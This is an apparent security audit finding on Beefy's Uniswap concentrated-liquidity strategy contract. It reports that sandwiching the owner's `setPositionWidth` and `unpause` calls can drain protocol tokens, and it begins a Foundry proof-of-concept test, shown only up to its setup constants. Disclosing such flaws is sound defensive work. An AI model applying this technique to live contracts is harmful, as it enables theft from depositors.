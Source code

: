 **Lead Auditors**

[Dacian](https://twitter.com/DevDacian)

[carlitox477](https://twitter.com/carlitox477)

**Assisting Auditors**



---

# Findings
## High Risk


### Attacker can drain protocol tokens by sandwich attacking owner call to `setPositionWidth` and `unpause` to force redeployment of Beefy's liquidity into an unfavorable range

**Description:** When the owner of the `StrategyPassiveManagerUniswap` contract calls `setPositionWidth` and `unpause` an attacker can sandwich attack these calls to drain the protocol's tokens. This is possible because `setPositionWidth` and `unpause` redeploy Beefy's liquidity into a new range based off the current tick and don't check the `onlyCalmPeriods` modifier, so an attacker can use this to force Beefy to re-deploy liquidity into an unfavorable range.

**Impact:** Attacker can sandwich attack owner call to `setPositionWidth` and `unpause` to drain protocol tokens.

**Proof of Concept:** Add a new test file `test/forge/ConcLiqTests/ConcLiqWBTCUSDC.t.sol:`
```solidity
pragma solidity 0.8.23;

import {Test, console} from "forge-std/Test.sol";
import {IERC20} from "@openzeppelin-4/contracts/token/ERC20/ERC20.sol";
import {BeefyVaultConcLiq} from "contracts/protocol/concliq/vault/BeefyVaultConcLiq.sol";
import {BeefyVaultConcLiqFactory} from "contracts/protocol/concliq/vault/BeefyVaultConcLiqFactory.sol";
import {StrategyPassiveManagerUniswap} from "contracts/protocol/concliq/uniswap/StrategyPassiveManagerUniswap.sol";
import {StrategyFactory} from "contracts/protocol/concliq/uniswap/StrategyFactory.sol";
import {StratFeeManagerInitializable} from "contracts/protocol/beefy/StratFeeManagerInitializable.sol";
import {IStrategyConcLiq} from "contracts/interfaces/beefy/IStrategyConcLiq.sol";
import {IUniswapRouterV3} from "contracts/interfaces/exchanges/IUniswapRouterV3.sol";

// Test WBTC/USDC Uniswap Strategy
contract ConLiqWBTCUSDCTest is Test {
    BeefyVaultConcLiq vault;
    BeefyVaultConcLiqFactory vaultFactory;
    StrategyPassiveManagerUniswap strategy;
    StrategyPassiveManagerUniswap implementation;
    StrategyFactory factory;
    address constant pool = 0x9a772018FbD77fcD2d25657e5C547BAfF3Fd7D16;
    address constant token0 = 0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599;
    address constant token1 = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address constant native = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address constant strategist = 0xb2e4A61D99cA58fB8aaC58Bb2F8A59d63f552fC0;
    address constant beefyFeeRecipient = 0x65f2145693bE3E75B8cfB2E318A3a74D057e6c7B;
    address constant beefyFeeConfig = 0x3d38BA27974410679afF73abD096D7Ba58870EAd;
    address constant unirouter = 0xE592427A0AEce92De3Edee1F18E0157C05861564;
    address constant keeper = 0x4fED5491693007f0CD49f4614FFC38Ab6A04B619;
    int24 constant width = 500;
    address constant user     = 0x161D61e30284A33Ab1ed227beDcac6014877B3DE;
    address constant attacker = address(0x1337);
    bytes tradePath1;
```